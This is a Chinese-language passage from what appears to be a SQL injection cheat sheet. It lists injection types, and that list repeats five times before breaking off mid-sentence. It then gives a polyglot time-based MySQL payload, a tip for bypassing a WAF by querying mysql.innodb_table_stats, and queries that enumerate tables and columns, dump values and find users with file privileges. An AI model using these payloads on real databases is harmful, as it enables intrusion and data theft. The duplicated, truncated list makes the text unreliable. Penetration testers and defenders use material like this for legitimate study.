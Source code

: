 - **盲注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应来判断数据库中的数据，而不直接获取数据。

- **报错注入**：攻击者通过构造恶意的SQL查询，利用应用程序返回的错误消息来获取数据库信息。

- **时间延迟注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应时间来判断数据库中的数据。

- **堆叠注入**：攻击者通过在SQL查询中插入多个查询语句，从而一次性执行多个查询。

- **盲注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应来判断数据库中的数据，而不直接获取数据。

- **报错注入**：攻击者通过构造恶意的SQL查询，利用应用程序返回的错误消息来获取数据库信息。

- **时间延迟注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应时间来判断数据库中的数据。

- **堆叠注入**：攻击者通过在SQL查询中插入多个查询语句，从而一次性执行多个查询。

- **盲注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应来判断数据库中的数据，而不直接获取数据。

- **报错注入**：攻击者通过构造恶意的SQL查询，利用应用程序返回的错误消息来获取数据库信息。

- **时间延迟注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应时间来判断数据库中的数据。

- **堆叠注入**：攻击者通过在SQL查询中插入多个查询语句，从而一次性执行多个查询。

- **盲注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应来判断数据库中的数据，而不直接获取数据。

- **报错注入**：攻击者通过构造恶意的SQL查询，利用应用程序返回的错误消息来获取数据库信息。

- **时间延迟注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应时间来判断数据库中的数据。

- **堆叠注入**：攻击者通过在SQL查询中插入多个查询语句，从而一次性执行多个查询。

- **盲注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应来判断数据库中的数据，而不直接获取数据。

- **报错注入**：攻击者通过构造恶意的SQL查询，利用应用程序返回的错误消息来获取数据库信息。

- **时间延迟注入**：攻击者通过构造恶意的SQL查询，利用应用程序的响应时间来判断数据库中的数据。

- **堆叠注入**：攻击者通过在SQL查询中插入多个查询语句
```sql
SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```
从[https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/](https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/)获取

## 流程

请记住，在“现代”版本的**MySQL**中，您可以将"_**information\_schema.tables**_"替换为"_**mysql.innodb\_table\_stats**_**"**（这可能对绕过WAF有用）。
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges
```
### **只有一个值**
